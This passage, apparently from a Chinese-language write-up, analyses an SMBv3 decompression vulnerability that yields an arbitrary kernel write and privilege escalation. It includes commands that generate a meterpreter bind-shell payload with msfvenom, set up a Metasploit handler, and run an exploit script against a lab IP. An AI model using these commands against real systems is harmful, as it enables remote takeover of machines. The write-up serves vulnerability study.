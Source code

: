 ![](https://i.loli.net/2020/12/01/57fwsdcFaL1OMBD.png)

解压完的内存布局：

![](https://i.loli.net/2020/12/01/vXTUjmALQMokENG.png)

继续看Srv2DecompressData的后续处理流程，解压成功后，函数判断offset的结果不为0。不为0则进行内存移动，内存拷贝的参数如下：
```
memmove(*(alloc_buffer+0x18)，SMB_payload，offset)
```
此时alloc_buffer+0x18已经指向验证程序的tokenAddr内核地址，而SMB_payload此时指向evilData中的权限数据，offset则为0x10。因此，这个内存移动完成后，权限数据将写入tokenAddr处。这意味着，SMS Server成功修改了验证程序的权限，从而实现了验证程序的提权！

还有一个细节需要注意，在解压时，Srv2DecompressData函数会判断实际的解压后数据大小FinalUnCompressedSize是否和数据包中原始数据大小OriginalCompressedSegmentSize一致，如下：

![](https://i.loli.net/2020/12/01/Wb54DyfHI8s7uQ3.png)

按理来说实际解压后的数据大小为0x1100，不等于数据包中的原始压缩数据大小0xffffffff，这里应该进入到后面内存释放的流程。然而，实际上在函数SmbCompressionDecompress中，调用RtlDecompressBufferEx2成功后会直接将OriginalCompressedSegmentSize赋值给FinalUnCompressedSize。这也是该漏洞关于任意地址写入成功的关键之一。

![](https://i.loli.net/2020/12/01/d3aE5NDzetOVgFn.png)

### 3.3 动态调试

使用msf生成shellcode：
```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=3333 -f py -o shellcode.txt
```
![](https://i.loli.net/2020/12/01/nKaXyt2f3O17IWl.png)

将生成的shellcode替换exp中的exploit.py中的USER_PAYLOAD保存即可。

![](https://i.loli.net/2020/12/01/ZWhkdam3T7S9YlJ.png)

使用msf开启目标端口连接处理器
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 192.168.232.134
rhost => 192.168.232.134
msf5 exploit(multi/handler) > set lport 3333
lport => 3333
msf5 exploit(multi/handler) > run
```
![](https://i.loli.net/2020/12/01/Zs98yOeCIqlbDVk.png)

执行攻击脚本：
```
python3 exploit.py -ip 192.168.232.134
```
![](https://i.loli.net/2020/12/01/8JrjHqwnEmzo1SD.png)
